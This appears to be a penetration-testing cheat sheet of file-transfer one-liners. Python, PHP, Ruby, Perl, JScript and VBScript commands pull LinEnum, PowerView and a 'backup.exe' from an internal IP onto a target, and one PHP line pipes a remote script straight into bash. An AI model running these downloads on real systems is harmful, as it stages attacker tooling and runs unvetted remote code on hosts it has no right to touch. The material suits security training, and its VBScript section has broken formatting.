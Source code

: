 # Transferring Files with Code

### Python

python 2

```python
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

python 3

```python
python3 -c 'import urllib.request; urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```


### PHP

With `file_get_contents()`:


```
php -r '$file = file_get_contents("http://192.168.45.246/backup.exe");file_put_contents("backup.exe", $file);'
```


With `fopen()`:


```php
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```


Directly output a file and pipe it to Bash:

```php
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


> **Note:** The URL can be used as a filename with the `@file` function if the `fopen` wrappers have been enabled.



### Ruby

```ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```


### Perl

```perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```




### JavaScript

* create a file wget.js with following code:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1; // Binary
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1), 2); // 2 = Overwrite if the file exists
```

* Download a File Using JavaScript and cscript.exe

```
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


### VBScript

1. **Create a VBScript File**: Open your text editor and paste the following VBScript code into a new file. Save this file as `wget.vbs`.
2.  ```vbnet
    dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
    dim bStrm: Set bStrm = createobject("Adodb.Stream")
    xHttp.Open "GET", WScript.Arguments.Item(0), False
    xHttp.Send

    with bStrm
        .type = 1 ' Binary
        .open
        .write xHttp.responseBody
        .savetofile WScript.Arguments.Item(1), 2 ' 2 = Overwrite if the file exists
    end with

    2. **Use the Script to Download a File**: To download a file, use the `cscript.exe` command in the Command Prompt (cmd.exe) or Windows PowerShell, specifying the URL of the file and the local filename to save it as.

    Example command:

    
    ```
    cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
    ```


    This command downloads the PowerShell script `PowerView.ps1` from the specified URL and saves it as `PowerView2.ps1` in the current directory.

